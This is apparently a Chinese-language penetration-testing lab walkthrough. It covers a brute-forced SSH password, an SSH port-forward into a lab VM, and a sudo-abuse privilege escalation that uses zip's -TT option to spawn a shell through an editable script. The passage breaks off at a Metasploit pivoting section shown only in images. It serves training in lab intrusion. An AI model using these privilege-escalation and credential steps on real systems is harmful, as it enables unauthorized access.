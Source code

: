 ![image](https://user-images.githubusercontent.com/64548919/197367366-5ad0140e-9e79-4191-b893-fcbf64b6fbbd.png)

![image](https://user-images.githubusercontent.com/64548919/197391462-3dba46db-1ac3-4798-a930-43747a19b4fa.png)

爆破得到的密码是`bobby4850`。

### PRIVILEGE ESCALATION WITH SUDO

先通过如下方法获得靶机的Bob端SHELL：

```
ssh -L 8888:172.17.0.1:80 bob@192.168.163.137 -p 2222
```

![image](https://user-images.githubusercontent.com/64548919/197397770-c8b3bacd-90ae-4c40-846d-d0ef148d6771.png)

可以查看到有TODO文件及其相关内容：

![image](https://user-images.githubusercontent.com/64548919/197398410-b0607076-036d-4183-8991-6684aa84584e.png)

然后运行`sudo -l`：

![image](https://user-images.githubusercontent.com/64548919/197398519-aae45101-cac9-479d-bde2-ca2b8a6a3ceb.png)

运行`sudo -u bakusr /bin/bash /opt/scripts/check.sh`：

![image](https://user-images.githubusercontent.com/64548919/197398913-4fce1bd0-8a74-4ca9-9698-a1f9e379942b.png)

然后在`check.sh`中添加下述内容：

```shell
tf=$(mktemp -u)
sudo zip $tf /etc/hosts -T -TT 'sh #'
sudo rm $tf
```

再次运行之前的指令，可以发现获得第一个checkpoint：

![image](https://user-images.githubusercontent.com/64548919/197399029-e04ffe91-652b-4fb0-9fdb-194b9c728ef6.png)


### PIVOTING

启动metasploit：

![image](https://user-images.githubusercontent.com/64548919/197380637-bf9a3d59-0cb9-4738-a6bd-e3ccdf8a885a.png)

搜索可用的模块：

![image](https://user-images.githubusercontent.com/64548919/197380709-effb18fc-76fa-4657-a8cd-21dbc8a71aa7.png)

使用其中一个模块：

![image](https://user-images.githubusercontent.com/64548919/197383768-9c34242b-2e11-4c16-9140-10c32261abbc.png)

配置目标机的相关信息：
